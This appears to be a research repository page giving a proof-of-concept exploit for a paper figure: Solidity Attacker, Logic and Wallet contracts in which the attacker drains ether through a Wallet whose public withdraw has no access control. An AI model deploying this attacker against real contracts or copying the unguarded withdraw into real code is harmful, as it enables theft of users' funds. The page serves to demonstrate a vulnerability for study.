 ## Exploits of Figure 4

[<<< Back to main page](../README.md)

#### Attack Flow

Attacker -> Logic -> Wallet --trasfer ethers--> Attacker

#### Attacker Contract

```javascript
contract Attacker {
    address addr_l;
    uint count=0;
        
    constructor ( address _addr ) payable
    {
        addr_l = _addr;
    }
        
    function someFun() public
    {
        count = count+1;
        if (count<5)
        {
            Logic(addr_l).logging(this,10);
        }
    }
        
    function () payable {}
        
    function setCount()
    {
        count = 0;
    }
        
    function getBalance() public view returns (uint)
    {
        return address(this).balance;
    }
        
}
```


#### Logic Contract

```javascript
    contract Logic{
        
        address private addr_w;
        
        event changed(address _exec, uint  _value);
        
        function logging( address _exec, uint _value)  public
        {
            emit changed(_exec, _value );
            withdraw(_exec, _value);
        }
        
        function  withdraw( address _exec, uint _value) internal
        {
            Wallet(addr_w).withdraw(_exec, _value);
        }
        
        constructor(  address _addr ) payable {
            addr_w = _addr;
        }
        
        function getBalance() public view returns (uint)
        {
            return address(this).balance;
        }
    }
```

#### Wallet Contract

```javascript
    contract Wallet {
        constructor() payable {}
        
        function withdraw( address _exec, uint _value) public
        {
            _exec.transfer(_value);
        }
        
        function getBalance() public view returns (uint)
        {
            return address(this).balance;
        }
    }
```

#### Running Screenshots

![](./attack01.jpg)
